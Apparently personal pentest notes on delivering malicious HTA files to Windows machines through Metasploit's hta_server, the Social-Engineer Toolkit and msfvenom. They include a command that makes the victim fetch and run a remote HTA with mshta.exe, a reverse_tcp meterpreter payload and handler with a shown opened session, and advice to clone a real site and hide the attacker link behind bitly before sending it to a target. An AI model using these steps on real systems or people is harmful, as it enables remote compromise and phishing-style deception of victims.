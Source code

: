# Pre-requisite - [[HTA Info]]
## Using Metasploit 
- This module hosts an HTML Application (HTA) that when opened will run a payload via powershell.
- When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.
```python
msf6 exploit(windows/misc/hta_server) > set SRVHOST 192.168.1.7
SRVHOST => 192.168.1.7
msf6 exploit(windows/misc/hta_server) > set URIPATH form
URIPATH => form
msf6 exploit(windows/misc/hta_server) > set LHOST 192.168.1.7
LHOST => 192.168.1.7
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
```
**Result** - 
![[HTA_server_started.png]]
- Once the exploit is executed, it will give you an URL link with the extension of .hta.
- Simultaneously, Metasploit will start the server which allows you to share the file.
- Use the below command in your victim PC in order to download the .hta file.
```python
mshta.exe http://192.168.1.7:8080/form
```
- When hta gets launched by mshta.exe it uses a signed Microsoft binary, allowing you to call PowerShell and inject a payload directly into memory.
![[WhatsApp Image 2023-04-22 at 1.27.07 PM.jpeg]]

## Using Setoolkit
- First option by **typing 1** to access social engineering tools.
![[social_engineering_hta_step1.png]]

- Choose second option by **typing 2**.
![[social_engineering_hta_step2.png]]

- Choose **option 7** to select the HTA attack method.
![[social_engineering_hta_step3.png]]

- For cloning the site you need to select the **option 2**. After that it will ask for url of site to clone.
- we have given www.ignitetechnologies.in.
- And then select the required port to listen on.
- After that select the payload you want to deliver
  ![[social_engineering_hta_step4.png]]
  - At the end convert your machine ip address to legitemate link using "bitly" website(https://bitly.com/pages/home/v2)
  - send the link to your target machine and then you get a session of meterpreter.
  - The above social engineering method is not reliable.

## Using magic unicorn
- It's not working.

## Using MSFVenom
- We manually creating a .hta file through msfvenom.
- Type the following command
```python
┌──(hyok㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.7 lport=1234 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of hta-psh file: 7471 bytes
```
- After creating the .hta file, turn on the python server to share the file to the victim's PC by typing:
```python
┌──(hyok㉿kali)-[~/msfvenom_stuffs]
└─$ python3 -m http.server --bind 0.0.0.0 80      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
- Running the .hta file on victim's computer by typing the below command:
![[msfvenom_hta_attack.jpeg]]
- Simultaneously, start your handler to receive a session when you run the above file in the victim's cmd prompt.
```python
msf6 > use exploit/multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.7
LHOST => 192.168.1.7
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.7:1234 
```
- And then, when the file running on victim computer then you get a session.
```python
[*] Sending stage (175686 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.7:1234 -> 192.168.1.2:60992) at 2023-04-25 12:35:14 +0530
```

## Using Cactustorch
It's not working.


